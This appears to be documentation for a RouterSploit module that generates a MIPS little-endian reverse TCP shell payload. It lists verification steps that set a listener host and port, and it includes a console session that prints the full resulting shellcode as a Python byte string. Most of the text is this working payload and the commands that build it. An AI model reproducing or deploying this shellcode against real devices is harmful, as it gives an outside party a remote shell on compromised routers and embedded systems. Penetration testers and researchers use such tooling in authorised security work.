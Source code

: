 ## Description

Module generates payload that creates interactive tcp reverse shell for MIPSLE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/mipsle/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates mipsle reverse shell tcp payload

## Scenarios

```
rsf > use payloads/mipsle/reverse_tcp
rsf (MIPSLE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (MIPSLE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (MIPSLE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04"
    "\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20"
    "\x80\x01\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27"
    "\x20\x80\x01\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24"
    "\x0c\x09\x09\x01\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09"
    "\x01\xc9\x0f\x02\x24\x0c\x09\x09\x01\x10\xe1\x05\x3c\x02\x00"
    "\xa5\x34\xf8\xff\xa5\xaf\x01\x04\x05\x3c\xc0\xa8\xa5\x34\xfc"
    "\xff\xa5\xaf\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01"
    "\x4a\x10\x02\x24\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08"
    "\x35\xec\xff\xa8\xaf\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff"
    "\xa8\xaf\xff\xff\x07\x28\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec"
    "\xff\xa4\x23\xec\xff\xa8\x23\xf8\xff\xa8\xaf\xf8\xff\xa5\x23"
    "\xec\xff\xbd\x27\xff\xff\x06\x28\xab\x0f\x02\x24\x0c\x09\x09"
    "\x01"
)
```
